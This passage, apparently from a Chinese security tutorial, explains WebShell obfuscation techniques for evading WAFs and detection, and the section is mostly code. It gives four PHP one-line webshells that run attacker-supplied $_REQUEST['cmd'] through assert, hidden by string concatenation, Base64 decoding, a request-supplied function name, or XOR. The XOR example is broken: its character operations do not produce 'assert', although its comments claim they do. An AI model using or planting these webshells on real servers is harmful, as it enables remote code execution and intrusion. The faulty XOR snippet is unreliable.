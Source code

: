 ### 5. WebShell 变形技术

为了绕过防火墙（WAF）和安全检测，WebShell 往往会使用各种技术手段进行变形和混淆。

#### 5.1 利用字符串连接和替换

**示例**：

```php
<?php
$str1 = "as";
$str2 = "sert";
$func = $str1 . $str2; // $func = "assert"
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

#### 5.2 利用 Base64 编码

**示例**：

```php
<?php
$code = base64_decode("YXNzZXJ0"); // "assert" 的 Base64 编码
$code($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

#### 5.3 利用替代数据来源

**示例**：

```php
<?php
$_REQUEST['a']($_REQUEST['cmd']); // 请求参数 a 的值可以是 assert、eval 等函数名
?>
```

#### 5.4 利用异或运算

**示例**：

```php
<?php
$func = chr(97) ^ chr(2); // 'a' 异或 2
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(101) ^ chr(1); // 'e' 异或 1
$func .= chr(114) ^ chr(0); // 'r' 异或 0
$func .= chr(116) ^ chr(5); // 't' 异或 5
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

### 6. WebShell 管理工具
